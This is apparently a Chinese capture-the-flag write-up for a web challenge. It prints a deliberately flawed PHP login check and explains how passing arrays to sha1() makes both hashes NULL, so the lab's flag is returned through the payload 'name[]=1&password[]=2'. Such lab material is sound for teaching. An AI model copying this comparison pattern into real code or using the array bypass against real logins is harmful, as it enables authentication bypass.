




## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以看到这是一个登陆页面，这里还给出了登陆逻辑操作的php处理代码



3.具体逻辑处理代码为：

```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
	echo '<p>Login first!</p>';
?>

```

我们可以看到输入的`name`和`password`不能一样，之后的`sha1`比较用了`===`，不存在弱类型问题。但`sha1`不能处理数组，当我们传入`name[]=1&password[]=2`时，会造成`sha1(Array) === sha1(Array)`，即`NULL===NULL`，从而吐出`flag`。

4.本地测试如下：

```php
<?php
$name = $_GET['name'];
var_dump(@sha1($name));
?>
```



5.所以我们可以构造payload：`http://IP:PORT/challenge5.php?name[]=1&password[]=2`获取flag



